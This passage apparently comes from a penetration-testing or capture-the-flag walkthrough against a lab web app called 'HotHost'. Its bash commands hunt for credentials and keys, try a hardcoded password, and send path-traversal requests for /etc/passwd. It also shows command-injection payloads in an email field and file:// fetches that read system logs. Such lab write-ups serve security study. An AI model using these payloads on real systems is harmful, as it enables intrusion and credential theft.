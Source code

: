 ### File and Credential Discovery
```bash
# Look for sensitive files
curl -s http://<target_ip>:8091/dummy.css
curl -s http://<target_ip>:8091/assets/
curl -s http://<target_ip>:8091/assets/flags/

# Base64 decode discovered credentials
echo "REJfUEBzc3cwcmQh" | base64 -d

# Check for AWS keys or other sensitive data
grep -i "AKIA" <discovered_files>
grep -i "secret" <discovered_files>
grep -i "password" <discovered_files>
```

---

## Phase 2: Initial Access & Web Application Exploitation

### HotHost Web Application
```bash
# Login attempts
curl -X POST http://<target_ip>:8091/login -d "username=admin&password=Very3stroungPassword" -H "Content-Type: application/x-www-form-urlencoded"

# Check user roles
curl -s http://<target_ip>:8091/profile -H "Cookie: session=<session_cookie>"

# Route enumeration for system files
curl -s http://<target_ip>:8091/pug
curl -s http://<target_ip>:8091/pug?file=../../../../etc/passwd

# Monitor system files route
curl -s "http://<target_ip>:8091/pug?template=../../../../etc/passwd"
```

### Command Injection via Web Forms
```bash
# Test newsletter email field for command injection
# Intercept with Burp Suite and test payloads:
email=test@test.com; whoami
email=test@test.com; cat /etc/passwd
email=test@test.com; id

# Look for command output in response
```

### File System Access
```bash
# Direct file access via monitoring port
curl -s "http://<target_ip>:23100/fetch?url=file:///hostfs/etc/passwd"
curl -s "http://<target_ip>:23100/fetch?url=file:///etc/passwd"

# Alternative payloads
curl -s "http://<target_ip>:8091/pug?file=file:///etc/passwd"
curl -s "http://<target_ip>:8091/render?template=../../../../etc/passwd"

# Log file enumeration
curl -s "http://<target_ip>:23100/fetch?url=file:///var/log/auth.log"
curl -s "http://<target_ip>:23100/fetch?url=file:///var/log/syslog"
curl -s "http://<target_ip>:23100/fetch?url=file:///var/log/apache2/access.log"
```
